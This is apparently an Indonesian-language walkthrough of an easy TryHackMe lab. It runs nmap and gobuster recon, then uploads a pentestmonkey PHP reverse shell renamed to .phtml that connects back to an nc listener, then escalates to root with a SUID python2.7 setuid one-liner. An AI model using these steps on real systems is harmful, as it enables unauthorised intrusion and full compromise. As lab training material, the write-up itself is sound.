










## Room Info

- Platform: TryHackMe
- Difficulty: Easy
- Objektif: Reconnaissance, Getting a shell, Privilege escalation

 Room ini memiliki tingkat kesulitan mudah, berfokus pada pengintaian, reverse shell dan peningkatan hak akses.

## Tahapan peretasan di lab TryHackMe

Yang pertama dilakukan adalah menyambungkan jaringan komputer lokal dengan jaringan TryHackMe, menggunakan perintah: sudo openvpn <nama-vpn.ovpn>, lalu menyalakan lab machine agar bisa mendapatkan alamat ip yang diperlukan.

Setelah alamat ip didapatkan dan jaringan disambungkan kita beralih pada tahap:

### 1.Reconnaissance
 Di tahap ini kita akan menggunakan tools seperti nmap dan gobuster, hasilnya adalah jawaban untuk pertanyaan yang tersedia, diantaranya sebagai berikut:

1. Scan the machine, how many ports are open?

2. What version of Apache is running?

3. What service is running on port 22?

4. Find directories on the web server using the GoBuster tool

5. What is the hidden directory?

Dibawah ini adalah cara yang digunakan:

Tools pertama yang akan digunakan adalah nmap, command: nmap -sV -sC [IP], IP nya didapatkan dari Lab Machine.

Hasil nmap yang didapat adalah sebagai berikut:

Setelah itu, kita gunakan gobuster untuk melihat direktori yang tersembunyi, command: gobuster dir -u http://[IP]/ -t 25 -w /usr/share/wordlists/common.txt

Hasil dari gobuster:

Terlihat ada beberapa status dengan nomor yang berbeda, 403(ada, tapi dilarang akses), 301(ada, tapi dialihkan), 200(ada dan bisa diakses).

Jadi jawaban untuk pertanyaan di atas adalah:

1. 2 , ini adalah jumlah port yang terbuka.

2. 2.4.41 , terletak di bagian VERSION port 80/http.

3. ssh , ini adalah nama port 22 yang terbuka.

4. Operasikan gobuster.

5. /panel/ , direktori ini ada di status 301, berisi laman web untuk upload file.

### 2.Getting a shell
 Kita harus mengunduh file reverse shell.php, menguploadnya lalu masuk melalui listener untuk mendapatkan flag di user.txt, caranya yaitu:

1. Unduh dulu file nya melalui terminal: wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php -O ~/shell.php

2. Lalu edit file nya dan ganti $ip menjadi tun0: 192.x.x.x pakai command: ip a show tun0, dan $port ke 4444:

3. Nyalakan listener, nc -lvnp 4444:

4. Setelah itu ubah format file dari .php ke .phtml, lalu upload ke http://[IP]/panel/

5. Klik Lihat! dibagian paling bawah dan browser akan terus loading, lalu kembali ke listener dan kitapun berhasil masuk:

6. Stabilkan terminal memakai: python3  -c 'import pty; pty.spawn("/bin/bash")'

7. Lalu ketik: find / 2>/dev/null | grep user.txt , untuk mencari file user.txt dan setelah berhasil menemukannya ketik: cat /var/www/user.txt , untuk membaca isi file:

Jadi jawaban untuk pertanyaan kali ini adalah: THM{y**_***_*_*****}

### 3.Privilege escalation
Adalah peningkatan hak akses, kita akan memakai SUID permission dan mengambil flag di root.txt, hasilnya untuk menjawab pertanyaan yang tersedia, sebagai berikut:

1. Search for files with SUID permission, which file is weird?

2. Find a form to escalate your privileges.

3. root.txt

Caranya adalah sebagai berikut:

1. Ketik: find / -perm -4000 -type f 2>/dev/null , dan cari akses root seperti(find, vim, python, dll):

2. Terdapat /usr/bin/python2.7 di situ, langsung eksekusi pakai: /usr/bin/python2.7 -c 'import os; os.setuid(0); os.system("/bin/bash")' , Setelah itu ambil flag menggunakan: cat /root/root.txt

Jadi jawaban untuk pertanyaan di atas adalah:

1. /usr/bin/python2.7

2. python — referensi dari GTFOBins untuk binary dengan SUID bit

3. THM{p*******_**********}

Sekian dan Terima kasih